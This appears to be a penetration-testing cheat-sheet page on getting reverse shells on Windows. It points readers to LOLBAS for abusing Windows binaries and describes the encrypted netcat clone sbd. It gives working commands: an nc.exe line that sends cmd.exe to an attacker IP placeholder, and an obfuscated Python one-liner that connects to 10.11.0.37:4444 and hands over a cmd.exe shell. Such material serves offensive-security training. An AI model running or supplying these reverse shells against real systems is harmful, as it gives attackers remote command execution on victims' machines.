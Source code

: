# Shells - Windows

The page [lolbas-project.github.io](https://lolbas-project.github.io/) is for Windows like [https://gtfobins.github.io/](https://gtfobins.github.io/) for linux.  
Obviously **there isn't SUID files or sudo privileges in Windows**, but it's useful to know **how** some **binaries** can be \(ab\)used perform some kind of unexpected actions like **execute arbitrary code.**

## NC

```bash
nc.exe -e cmd.exe <Attacker_IP> <PORT>
```

## SBD

**sbd** is a Netcat-clone, designed to be portable and offer strong encryption. It runs on Unix-like operating systems and on Microsoft Win32. sbd features AES-CBC-128 + HMAC-SHA1 encryption \(by Christophe Devine\), program execution \(-e option\), choosing source port, continuous reconnection with delay, and some other nice features. sbd supports TCP/IP communication only. sbd.exe \(part of the Kali linux distribution: /usr/share/windows-resources/sbd/sbd.exe\) can be uploaded to a Windows box as a Netcat alternative.

## Python

```bash
#Windows
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.11.0.37', 4444)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```
